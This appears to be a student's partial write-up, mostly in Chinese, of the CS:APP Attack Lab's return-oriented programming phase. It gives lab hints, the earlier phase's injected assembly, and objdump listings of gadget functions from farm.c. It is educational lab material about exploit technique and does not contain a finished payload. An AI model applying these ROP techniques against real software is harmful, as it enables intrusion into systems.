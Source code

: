 Some Advice:

- All the gadgets you need can be found in the region of the code for rtarget demarcated by the functions start_farm and mid_farm.

- You can do this attack with just two gadgets.

- When a gadget uses a popq instruction, it will pop data from the stack. As a result, your exploit string will contain a combination of gadget addresses and data.

要求总结:

- 复现phase_2的操作

  ```
  mov $0x59b997fa, %rdi
  pushq $0x4017ec
  ret
  ```

- 只需要用only 第一到第八个寄存器(%rax ---> %rdi)

- 需要注意0xc3为标志的ret

- 只需要使用两个gadgets 

我们知道需要的gadget都存在farm.c中,所以我们先farm.c编译再反汇编得到机器指令+地址,便于寻找,输入以下指令

**一定要注意要输入-Og,不然就会使用stack frame pointer,会变得比较复杂**

```
gcc -c -Og farm.c
objdump -d farm.o>farm.s
```

我们便会得到farm.s,我们要做的是把0x59b997fa这个值弄到%rdi里面,但是我们知道我们不能用mov来直接mov立即数,因为farm中没有cookie的值,只能另辟蹊径,把这个cookie的值压入栈中然后再popq

操作顺序:

- 转移cookie的值转移到%rdi中

- 把$0x4017ec(touch2地址)压入栈中
- ret

这是相关联的函数,需要在其中找到gadgets

```assembly
0000000000000000 <start_farm>:
   0:	f3 0f 1e fa          	endbr64 
   4:	b8 01 00 00 00       	mov    $0x1,%eax
   9:	c3                   	retq   

000000000000000a <getval_142>:
   a:	f3 0f 1e fa          	endbr64 
   e:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  13:	c3                   	retq   

0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64 
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3                   	retq   

000000000000001f <addval_219>:
  1f:	f3 0f 1e fa          	endbr64 
  23:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  29:	c3                   	retq   

000000000000002a <setval_237>:
  2a:	f3 0f 1e fa          	endbr64 
  2e:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  34:	c3                   	retq   

```